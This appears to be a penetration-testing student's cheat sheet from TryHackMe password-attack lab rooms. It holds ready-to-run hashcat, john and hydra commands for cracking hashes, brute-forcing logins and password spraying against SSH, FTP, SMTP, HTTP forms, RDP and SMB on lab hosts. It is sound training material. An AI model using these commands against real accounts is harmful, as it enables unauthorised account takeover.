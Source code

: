 ## Red Team Fundamentals

* Link: <https://tryhackme.com/room/redteamfundamentals>
* Kill Chain: recon -> weaponization -> delivery -> exploitation -> installation -> C&C -> actions on objectives

## Password Attacks

* Link: <https://tryhackme.com/room/passwordattacks>
* Most common passwords: <https://techlabuzz.com/top-100-most-common-passwords/>
* Default Passwords:
  * <https://cirt.net/passwords>
  * <https://default-password.info/>
  * <https://datarecovery.com/rd/default-passwords/>
* Weak passwords
  * <https://wiki.skullsecurity.org/index.php?title=Passwords>
  * <https://github.com/danielmiessler/SecLists/tree/master/Passwords>
* Leaked passwords
  * <https://github.com/danielmiessler/SecLists/tree/master/Passwords/Leaked-Databases>
* Wordlists
  * Combined: `cat file1.txt file2.txt file3.txt > combined_list.txt`
  * Deduplicated: `sort combined_list.txt | uniq -u > cleaned_combined_list.txt`
  * Customized wordlists using cewl: `cewl -w list.txt -d 5 -m 5 http://thm.labs`
* Username conventions using: <https://github.com/therodri2/username_generator.git>
  * Usage: `python3 username_generator.py -h`
* Keyspace techniques to create wordlists
  * `crunch -h`
  * `crunch 2 2 01234abcd -o crunch.txt`
  * `git clone https://github.com/Mebus/cupp.git`
  * `python3 cupp.py -h`
* Dictionary attacks
  * `hashcat`
  * `hashid`
  * `hash-identifier`
  * MD5: `hashcat -a 0 -m 0 f806fc5a2a0d5ba2471600758452799c /usr/share/wordlists/rockyou.txt --show`
  * SHA-1`hashcat -a 0 -m 100 8d6e34f987851aa599257d3831a1af040886842f /usr/share/wordlists/rockyou.txt`
* Brute force: `hashcat -m 0 -a 3 e48e13207341b6bffb7fb1622282247b ?d?d?d?d`
* Rule-based attacks: when knowledge of password policies exists
  * `cat /etc/john/john.conf|grep "List.Rules:" | cut -d"." -f3 | cut -d":" -f2 | cut -d"]" -f1 | awk NF`
  * `john --wordlist=/tmp/single-password-list.txt --rules=best64 --stdout | wc -l`
  * Custom rules: `sudo vi /etc/john/john.conf`
  * Expand dictionary: `john -wordlist=clinic.lst -rules=Single-Extra -stdout > dict2.lst`
  * Rule based aAttack: `hydra -l burgess -P dict2.lst 10.10.168.49 http-post-form "/login-post/index.php:username=^USER^&password=^PASS^:S=logout.php" -f`
* Hydra
  * FTP Usage: `hydra -l ftp -P passlist.txt ftp://10.10.x.x`
  * SMTP Usage: `hydra -l email@company.xyz -P /path/to/wordlist.txt smtp://10.10.x.x -v`
  * SSH usage: `hydra -L users.lst -P /path/to/wordlist.txt ssh://10.10.x.x -v`
  * HTTP usage 1: `hydra -l admin -P 500-worst-passwords.txt 10.10.x.x http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f`
  * HTTP usage 2: `hydra -l phillips -P clinic.lst 10.10.168.49 http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f`
* Password spray attacks
  * SSH: `hydra -L usernames-list.txt -p Spring2021 ssh://10.1.1.10`
  * RDP 1: `python3 RDPassSpray.py -h`
  * RDP 2: `python3 RDPassSpray.py -u victim -p Spring2021! -t 10.100.10.240:3026`
  * RDP 3: `python3 RDPassSpray.py -U usernames-list.txt -p Spring2021! -d THM-labs -T RDP_servers.txt`
  * SMB: `Metasploit (auxiliary/scanner/smb/smb_login)`
* OWA password spray
  * <https://github.com/dafthack/MailSniper>